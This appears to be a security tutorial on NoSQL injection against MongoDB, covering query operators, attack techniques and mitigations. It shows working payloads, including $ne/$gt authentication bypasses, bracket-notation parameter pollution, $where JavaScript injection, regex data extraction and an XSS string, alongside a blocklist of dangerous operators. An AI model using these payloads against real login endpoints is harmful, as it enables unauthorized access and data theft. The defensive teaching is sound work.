


Before we talk about a *NoSQL Injection*, let's understand what NoSQL is. *NoSQL databases* are precisely the opposite of what SQL databases are. **NoSQL means "not only SQL"** or "no structured query language." The schema used in a NoSQL database is very dynamic and highly scalable. One can add different fields dynamically without affecting the rest of the data. One popular example of a NoSQL database is *MongoDB*.

> **Key Insight**: NoSQL injection attacks exploit the dynamic nature of NoSQL queries, often bypassing traditional SQL injection defenses.

## Understanding NoSQL Databases



**Key Differences:**

| **Feature** | **SQL** | **NoSQL** |
|-------------|---------|-----------|
| **Schema** | Fixed, predefined | Dynamic, flexible |
| **Scalability** | Vertical (scale up) | Horizontal (scale out) |
| **Data Model** | Tables with rows | Documents, key-value, graph |
| **Query Language** | SQL | Varies by database |
| **Examples** | MySQL, PostgreSQL | MongoDB, CouchDB, Redis |

## What are NoSQL Injections?

*NoSQL injections* occur when dynamic database queries can be manipulated by supplying unexpected user input such as **Binary** and **Query Object Types**. If you are expecting a string as an input, it needs to be whitelisted and validated.

### MongoDB Query Objects

A popular NoSQL database is *MongoDB*. MongoDB's **Query Objects** can be used to circumvent server-side validation by:
- Using reconnaissance of client-side JavaScript
- Finding API endpoints and their payloads
- Exploiting object query injection vulnerabilities

## Vulnerable Query Example

Query Objects can be leveraged to validate username/password with logic operators. If more than one field is specified, it signals an AND query:

```javascript
db.accounts.find({
 username: "username_value", 
 password: "password_value"
})
```

### The Vulnerability

Validation issues arise when the underlying library allows a malicious attacker to inject unexpected values into `username_value` and `password_value`.

**Normal Input:**
```javascript
username: "john"
password: "secret123"
```

**Malicious Input:**
```javascript
username: "admin"
password: {$exists: true}
```

This bypasses password validation because `{$exists: true}` returns true if any password field exists in the database!

## NoSQL Injection Techniques

### 1. Boolean-Based Injection

**Vulnerable Code:**

```javascript
db.accounts.find({
 username: req.body.username,
 password: req.body.password
})
```

**Attack:**

```json
{
 "username": "admin",
 "password": {"$ne": null}
}
```

This query translates to: "Find user where username is 'admin' and password is not null" — bypassing authentication!

### 2. Nested Query Objects

Even without underlying library issues, attackers can use **nested query objects** to bypass validation:

```http
POST /login HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username[$eq]=admin&password[$exists]=true
```

This exploits parameter pollution to inject query operators.

## MongoDB Query Operators

### Comparison Operators

```javascript
{$gt: 0} // Greater than
{$lt: 100} // Less than
{$gte: 0} // Greater than or equal
{$lte: 100} // Less than or equal
{$ne: null} // Not equal
{$eq: "value"} // Equal
```

### Logical Operators

```javascript
{$and: [...]} // Logical AND
{$or: [...]} // Logical OR
{$not: {...}} // Logical NOT
{$nor: [...]} // Logical NOR
```

### Element Operators

```javascript
{$exists: true} // Field exists
{$type: "string"} // Field type check
```

### Evaluation Operators

```javascript
{$where: "..."} // JavaScript expression
{$regex: "..."} // Regular expression
```

> **Danger**: The `$where` operator is particularly dangerous as it allows JavaScript code execution!

## Advanced Attack Vectors

### 1. JavaScript Injection via $where

**Vulnerable Query:**

```javascript
db.collection.find({
 '$where': 'this.name === "' + userInput + '"'
})
```

**Attack:**

```javascript
// Malicious input
userInput = '"; return true; //'

// Resulting query
this.name === ""; return true; //"
// Always returns true!
```

### 2. XSS via $comment

Through the `$comment` query operator, an attacker can inject an XSS payload inside the comment tag:

```javascript
db.collection.find({
 username: "admin",
 $comment: "<script>alert('XSS')</script>"
})
```

If an admin views these logs through their browser, they could be vulnerable to **remote code execution**.

### 3. Blind NoSQL Injection



## Attack Examples

### Authentication Bypass

**Vulnerable Code:**

```javascript
app.post('/login', (req, res) => {
 db.users.findOne({
 username: req.body.username,
 password: req.body.password
 }, (err, user) => {
 if (user) {
 res.send('Login successful');
 }
 });
});
```

**Attack Payload:**

```json
{
 "username": {"$gt": ""},
 "password": {"$gt": ""}
}
```

This returns **any user** from the database, bypassing authentication!

### Data Extraction

**Extract all usernames:**

```http
POST /api/users HTTP/1.1
Content-Type: application/json

{
 "username": {"$regex": ".*"},
 "password": {"$exists": true}
}
```

## Mitigation Tactics

### 1. Input Sanitization

**Make sure the underlying library is sanitized:**

```javascript
const sanitize = require('mongo-sanitize');

app.post('/login', (req, res) => {
 const clean = {
 username: sanitize(req.body.username),
 password: sanitize(req.body.password)
 };
 
 db.users.findOne(clean, callback);
});
```

### 2. Type Validation

**User inputs must match the expected type:**

```javascript
// Validate input types
if (typeof username !== 'string' || typeof password !== 'string') {
 return res.status(400).send('Invalid input type');
}

// Ensure no objects are passed
if (username.constructor === Object || password.constructor === Object) {
 return res.status(400).send('Invalid input format');
}
```

### 3. Least Privilege Principle

**Always use the least privilege principle** when running an application:

```javascript
// MongoDB user with limited permissions
db.createUser({
 user: "appUser",
 pwd: "securePassword",
 roles: [
 { role: "read", db: "productionDB" },
 { role: "readWrite", db: "userDataDB" }
 ]
})
```

### 4. Disable Dangerous Operators

**Avoid using query operators in user inputs** such as `$where`, `$mapReduce`, etc.

```javascript
// Reject queries with operators
const dangerousOperators = ['$where', '$mapReduce', '$function'];

function hasDangerousOperators(obj) {
 return Object.keys(obj).some(key => 
 key.startsWith('$') && dangerousOperators.includes(key)
 );
}
```

### 5. Disable JavaScript Execution

**For additional safety, set `javascriptEnabled` to false:**

```javascript
// mongod.conf
security:
 javascriptEnabled: false
```

## Secure Code Example

```javascript
const express = require('express');
const mongoSanitize = require('express-mongo-sanitize');

const app = express();

// Middleware to sanitize inputs
app.use(mongoSanitize());

app.post('/login', async (req, res) => {
 // Type validation
 if (typeof req.body.username !== 'string' || 
 typeof req.body.password !== 'string') {
 return res.status(400).json({ error: 'Invalid input' });
 }
 
 // Length validation
 if (req.body.username.length > 100 || 
 req.body.password.length > 100) {
 return res.status(400).json({ error: 'Input too long' });
 }
 
 // Use parameterized query
 const user = await db.users.findOne({
 username: req.body.username,
 password: hashPassword(req.body.password)
 });
 
 if (user) {
 res.json({ success: true });
 } else {
 res.status(401).json({ error: 'Invalid credentials' });
 }
});
```

## Defense Checklist

- [ ] Sanitize all user inputs
- [ ] Validate input types (must be strings, not objects)
- [ ] Implement length restrictions
- [ ] Use allowlists for valid characters
- [ ] Disable JavaScript execution in MongoDB
- [ ] Avoid `$where`, `$mapReduce` operators with user input
- [ ] Apply least privilege to database users
- [ ] Use parameterized queries
- [ ] Implement rate limiting
- [ ] Monitor for suspicious query patterns
- [ ] Regular security audits
- [ ] Keep database software updated

## Conclusion

*NoSQL injection attacks* exploit the flexible nature of NoSQL databases to bypass authentication, extract data, or execute malicious code. While NoSQL databases offer advantages in scalability and flexibility, they introduce unique security challenges that differ from traditional SQL injection.

The key to preventing NoSQL injections is **rigorous input validation**, **type checking**, and **sanitization** of all user-supplied data. Never trust user input, always validate expected types, and implement multiple layers of defense.

> **Final Takeaway**: NoSQL doesn't mean "No Security SQL." Apply the same security rigor to NoSQL applications as you would to traditional SQL applications—validate, sanitize, and never trust user input.

## References

- [OWASP: NoSQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection)
- [MongoDB Security Checklist](https://docs.mongodb.com/manual/administration/security-checklist/)
- [PortSwigger: NoSQL Injection](https://portswigger.net/web-security/nosql-injection)
- [HackerOne: NoSQL Injection Reports](https://hackerone.com/reports/)
